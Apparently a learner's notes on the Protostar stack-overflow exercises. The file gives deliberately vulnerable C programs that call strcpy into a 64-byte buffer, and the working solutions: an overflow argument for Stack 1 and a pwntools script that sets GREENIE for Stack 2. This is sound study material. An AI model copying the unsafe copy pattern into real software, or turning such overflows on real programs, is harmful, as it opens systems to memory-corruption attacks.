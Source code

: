 # Notes and Answer
Notes while learning binary exploitation from protostar

## Stack 1 
- Source code
	```c
	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <string.h>

	int main(int argc, char **argv)
	{
  	volatile int modified;
  	char buffer[64];

  	if(argc == 1) {
      	errx(1, "please specify an argument\n");
  	}

  	modified = 0;
  	strcpy(buffer, argv[1]);

  	if(modified == 0x61626364) {
      	printf("you have correctly got the variable to the right value\n");
  	} else {
      	printf("Try again, you got 0x%08x\n", modified);
  	}
	}
	```
- Answer

	```bash
	./stack1 AAAABBBBCCCCDDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKKLLLLMMMMNNNNOOOOPPdcba
	```

## Stack 2 
- Source Code
	/stack2/stack2
	```c
	#include <stdlib.h>
	#include <unistd.h>
	#include <stdio.h>
	#include <string.h>

	int main(int argc, char **argv)
	{
		volatile int modified;
		char buffer[64];
		char *variable;

		variable = getenv("GREENIE");

		if(variable == NULL) {
				errx(1, "please set the GREENIE environment variable\n");
		}

		modified = 0;

		strcpy(buffer, variable);

		if(modified == 0x0d0a0d0a) {
				printf("you have correctly modified the variable\n");
		} else {
				printf("Try again, you got 0x%08x\n", modified);
		}

	}
	```
- Answer 
	/stack2/exploit.py
	```python
	#!/bin/python
	import os
	from pwn import *

	pad = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa"
	modified = '\x0a\x0d\x0a\x0d'
	payload = pad+modified
	print(payload)

	os.environ['GREENIE']=payload

	p = process('./stack2')
	print(p.recvline())
	```


## Stack 3

